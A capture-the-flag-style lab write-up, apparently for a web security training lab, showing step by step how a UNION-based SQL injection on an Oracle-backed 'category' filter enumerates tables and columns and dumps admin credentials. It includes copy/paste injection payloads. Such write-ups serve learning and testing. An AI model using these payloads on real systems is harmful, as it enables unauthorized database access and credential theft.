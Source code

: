 # SQL injection attack, listing the database contents on Oracle

A concise write-up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Get admin credentials from the database** (Oracle) via UNION-based SQLi.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: get admin creds from database**

2. **We knows the database is oracle, lets make some research. (what we did in prev lab on mysql, now on oracle)**

3. **see pictures 1,2, we found the queries. lets found the vulnerable parameter endpoint.**

4. **`/filter?category=Food+%26+Drink'` -> error 500**

5. **`/filter?category=Food+%26+Drink'--;` -> fixed**

6. **lets add union for oracle -> `'+UNION+SELECT+NULL,NULL+FROM+DUAL--;` (requires two params)**

7. **getting table names: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--;`  -> our table: `USERS_PHBAAE`**

8. **getting all columns from that table: `'+UNION+SELECT+column_name,NULL+FROM+USER_TAB_COLUMNS+WHERE+table_name='USERS_PHBAAE'--;`**

9. **we fetched two columns lets get their contents: `'+UNION+SELECT+USERNAME_YULFTB,PASSWORD_XDLYEB+FROM+USERS_PHBAAE--;`**

10. **Log in**

11. **Lab solved.**

---

## 🧠 Minimal Additions (Why / Tips)

- **DUAL usage (Oracle):** Use `FROM DUAL` only when selecting **constants** (e.g., `NULL,NULL`). When selecting from real views/tables like `ALL_TABLES` or `USER_TAB_COLUMNS`, you **don’t** add `DUAL`.
- **UNION rules:** The injected `UNION SELECT` must match the **number of columns** (and compatible data types) of the original query. Step 6 sets the count to **2**, which matches later payloads.
- **Which data dictionary view?**  
  - **`ALL_TABLES`** lists tables you have access to (across schemas).  
  - **`USER_TAB_COLUMNS`** lists columns for tables **owned by your current user**. If the target is in another schema, use `ALL_TAB_COLUMNS` and filter on `owner`:
    ```sql
    SELECT column_name
    FROM all_tab_columns
    WHERE table_name = 'USERS_PHBAAE'
      AND owner = '<OWNER_NAME>';
    ```
- **Case / quoting:** Unquoted Oracle identifiers are stored **UPPERCASE**. Your `WHERE table_name='USERS_PHBAAE'` is correct (upper). If you see mixed-case names created with quotes, match them exactly.
- **Commenting remainder:** `--` comments to end-of-line. The `--+` adds a space (since `+` decodes to a space), which makes the comment effective in many labs.
- **URL encoding:** `%26` is the encoded `&` in `Food+%26+Drink`. `+` usually means a space in query strings.

---

## 🔧 Payloads I Used (Copy/Paste)

**Discovery & Fix:**
```txt
/filter?category=Food+%26+Drink'
/filter?category=Food+%26+Drink'--;
```

**Set column count to two (constants need DUAL):**
```txt
/filter?category='+UNION+SELECT+NULL,NULL+FROM+DUAL--;
```

**List tables (2-column UNION):**
```txt
/filter?category='+UNION+SELECT+table_name,NULL+FROM+all_tables--;
```

**List columns in target table (current user owns it):**
```txt
/filter?category='+UNION+SELECT+column_name,NULL+FROM+USER_TAB_COLUMNS+WHERE+table_name='USERS_PHBAAE'--;
```

**Dump candidate creds (adjust order if UI renders second col):**
```txt
/filter?category='+UNION+SELECT+USERNAME_YULFTB,PASSWORD_XDLYEB+FROM+USERS_PHBAAE--;
```

---

## 🏁 Result
- Enumerated tables and columns in Oracle, extracted the credential fields, and **logged in as admin**. **Lab Solved. ✅**
